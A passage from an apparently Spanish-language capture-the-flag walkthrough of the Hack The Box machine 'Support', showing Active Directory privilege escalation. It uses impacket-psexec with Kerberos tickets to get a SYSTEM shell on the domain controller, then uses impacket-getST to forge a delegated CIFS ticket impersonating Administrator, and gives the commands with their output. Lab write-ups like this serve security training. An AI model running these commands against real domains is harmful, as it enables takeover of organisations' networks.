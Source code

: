 * Por último, vamos a usar **psexec** para autenticarnos en el servicio Kerberos, usaré el **psexec de impacket**:
```batch
impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file UseADnsr.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service vHKy on dc.support.htb.....
[*] Starting service vHKy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.
*
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> ipconfig
*
Windows IP Configuration
*
Ethernet adapter Ethernet0:
   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.11.174
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```

<br>

<h3 id="forma2">Segunda Forma: Usando getST y Psexec de Impacket Para Autenticarnos en Servicio Kerberos Como Administrador</h3>

Esta forma la encontramos en el siguiente **GitHub** que, tiene un script que automatiza todo el ataque (quizá en otra máquina lo probaremos o puedes probarle en esta):
* <a href="https://github.com/tothi/rbcd-attack/tree/master" target="_blank">Repositorio de tothi: Abusing Kerberos Resource-Based Constrained Delegation</a>

Empecemos:

* Utilicemos **impacket-getST** para crear un **CIFS Service Ticket** en un **archivo ccache**:
```bash
impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:123456
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

* Exportemos el **archivo ccache** en la **variable KRB5CCNAME**:
```bash
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```
